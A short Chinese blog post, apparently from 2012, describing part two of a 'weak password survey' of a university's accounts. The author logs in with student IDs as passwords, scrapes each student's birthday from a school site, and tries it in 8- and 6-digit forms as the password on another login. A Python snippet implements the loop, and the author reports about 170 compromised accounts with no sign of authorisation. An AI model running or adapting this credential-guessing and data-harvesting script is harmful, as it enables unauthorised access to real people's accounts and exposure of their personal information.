 ```yaml
---
date: 2012-04-07 01:33:28+00:00
layout: post
title: 校园账户弱口令调查（二）
categories: [Python]
description: "上回说到我将获取生日信息，并将其作为登陆密码来进行测试。资料在学校某个网站上，post登陆后即可看到个人信息。"
---
```


上回说到我将获取生日信息，并将其作为登陆密码来进行测试。资料在学校某个网站上，post登陆后即可看到个人信息。

获取信息需要解析html。在Python里面，有个很好用的模块用于解析html/xml，叫BeautifulSoup。我用它找出所有的标签，并且用正则表达式进行匹配，找出生日。  
因为并不是每个学号都有个人信息，所以有时候会引发异常，并导致程序中断，所以需要使用try/except来进行异常的处理。获取生日后，分别使用8位格式和6位格式进行登录，如果登录成功，记录下来。

    
    try:
        password = user
        data_login(user,password)
        resp2 = urllib2.urlopen(info_url+user)
        soup = BeautifulSoup(resp2.read())
        data = soup.findAll('td')
        for i in data:
            if re.search(r'[0-9]{8}',i.text):
                 if len(i.text) == 8:
                      waiwang_login(user, str(i.text))
                      waiwang_login(user, i.text[2:])
        k = k+1
    except:
        print str(k)+' error'
        k = k+1


经过测试，记录下来的大约有170个账号是使用生日作为密码的。这样看来，大家的安全意识还有待加强。
